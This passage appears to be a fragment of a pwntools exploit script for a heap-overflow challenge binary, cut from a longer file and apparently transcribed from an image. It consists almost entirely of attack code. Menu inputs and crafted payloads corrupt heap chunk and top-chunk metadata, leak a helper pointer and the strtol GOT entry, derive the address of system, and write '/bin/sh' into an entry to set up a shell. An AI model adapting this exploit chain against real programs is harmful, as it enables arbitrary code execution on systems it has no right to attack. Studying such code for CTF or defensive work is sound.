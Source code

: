 r.recv(timeout=1)

# Wrap around to reach the helper ptr
r.sendline('3')
r.recv(timeout=1)

r.sendline(str(-0x960))
r.recv(timeout=1)

r.sendline('4')
r.recv(timeout=1)

r.sendline('1')
r.recv(timeout=1)

r.sendline('4')
r.recv(timeout=1)

payload = p64(0x32)				# <- ASCII '2' for print_entries
payload += p64(0xffffffffffffffff) * 30
payload += p64(0x111)				# restoring the current chunk's metadata
payload += p64(0) * 2
payload += p64(leak - 0x940)
payload += p64(0xffffffffffffffff) * 31 		# overflowing the new wilderness md
r.sendline(payload)

helper_ptr = r.recvuntil('Large: ')
helper_ptr = r.recvuntil('Large: ')
helper_ptr = r.recvuntil('Large: ')
helper_ptr = r.recvuntil('Large: ')
helper_ptr = int(r.recv(12), 16)

log.info("helper ptr: " + hex(helper_ptr))

# Stage 3 - Leak an entry from the GOT
payload = p64(0x32)				# <- ASCII '2' for print_entries
payload += p64(0xffffffffffffffff) * 30
payload += p64(0x111)				# restoring the current chunk's metadata
payload += p64(leak_ptr + 0x11374) * 2
payload += p64(0)
payload += p64(0xffffffffffffffff) * 31 	# overflowing the current wilderness
r.sendline(payload)

leak_strtol = r.recvuntil('Large: ')
leak_strtol = r.recvuntil('Large: ')
leak_strtol = r.recvuntil('Small: ')
leak_strtol = u64(r.recv(5).ljust(8, '\0'))
log.info("Strtol@GOT: " + hex(leak_strtol))

system = leak_strtol + 0x88e8			# Calc system from leak
log.info("System: " + hex(system))

# Stage 4 - Overwriting helper ptr and first entries->large
r.sendline('1')
r.recv(timeout=1)
r.sendline('3')
r.recv(timeout=1)
r.sendline(str(0x490 + 0x50)) # Positive malloc to reach the first entries struct
r.recv(timeout=1)

r.sendline('2')		# Overflow the first entries->large with '/bin/sh'
r.recv(timeout=1)
r.sendline('/bin/sh')
r.recv(timeout=1)
